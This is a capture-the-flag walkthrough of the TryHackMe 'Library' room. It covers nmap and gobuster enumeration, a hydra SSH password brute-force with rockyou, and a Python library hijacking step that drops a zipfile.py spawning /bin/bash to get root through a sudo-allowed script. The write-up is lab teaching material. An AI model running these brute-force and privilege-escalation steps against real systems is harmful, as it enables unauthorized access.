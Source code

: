 ```yaml
---
title: "TryHackMe - Library"
author: Nasrallah
description: ""
date: 2022-11-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, hijacking, python, hydra, bruteforce]
img_path: /assets/img/tryhackme/library
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Library](https://tryhackme.com/room/bsidesgtlibrary) from [TryHackMe](https://tryhackme.com). The machine is running ssh and a web server, we find a username in the web page then brute force the password of ssh and get foothold. After that we use library hijacking to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.200.89
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to  Blog - Library Machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found two open ports, 22 running OpenSSH and 80 running Apache http web server.

### Web

Let's navigate to the web page.

![](1.png)

Here we have a blog with one post. Looking through this page, we find a possible username.

![](2.png)

Now let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.200.89
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/20 06:14:00 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/images               (Status: 301) [Size: 313] [--> http://10.10.200.89/images/]
/index.html           (Status: 200) [Size: 5439]                                 
/robots.txt           (Status: 200) [Size: 33]                                   
/server-status        (Status: 403) [Size: 300]                                  
===============================================================
```

Let's check robots.txt file.

![](3.png)

It says rockyou.

## **Foothold**

Let's brute force ssh with username we found and rockyou list.

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh 
```

![](4.png)

Great! We got the password, let's login.

![](5.png)



## **Privilege Escalation**

Let's check our privilges.

![](6.png)

There is a python script file we can run as root in our home directory.

Let's check the file

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()

```

We the script import two modules, `os` and `zipfile`, and they get called later in the script.

We can use a technique called `Python library hijacking`, how this technique works is when importing a module within a script, python will search that module file throughout a predefined directories in a specific order of priority, but if there exists a python module file in the same directory as the original script.

Now create file named `zipfile.py`, then write the following code in it.

```python
import os; os.system("/bin/bash")
```

Then we run the python script `bak.py` with sudo.

```bash
meliodas@ubuntu:~$ echo 'import os; os.system("/bin/bash")' > zipfile.py
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# whoami
root
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# 

```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
